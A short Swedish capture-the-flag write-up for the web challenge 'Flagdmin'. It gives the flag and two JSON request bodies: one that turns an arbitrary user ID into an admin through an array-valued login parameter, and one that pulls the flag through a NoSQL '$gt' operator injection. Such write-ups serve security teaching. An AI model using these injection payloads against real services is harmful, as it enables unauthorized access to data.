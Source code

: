 # Web: Flagdmin

- **Skapare:** Kelvin Szolnoky
- **Poäng:** 250
- **Antal lösningar:** 7

## Beskrivning

Built with modern node.js, redis, typescript and all the good technologies, this is the service for all admins to get their flags.

http://35.228.52.143:6969/

Given fil: src/app.ts

## Flagga

SSM{nO_n0_pL332_DOn7_no5QL1}

## Lösning

Skicka följande post request (body) till /api/login

```json
{
  "userID": ["test_user_id", "admin"]
}
```

Detta kommer göra test_user_id till admin. test_user_id kan sättas till vilken sträng som helst.

Skicka följande post request (body) till /api/get/flag

```json
{
  "userID": "test_user_id",
  "flagID": { "$gt": "" }
}
```

Detta kommer hämta det första dokumentet i databasen, vilket är flaggan

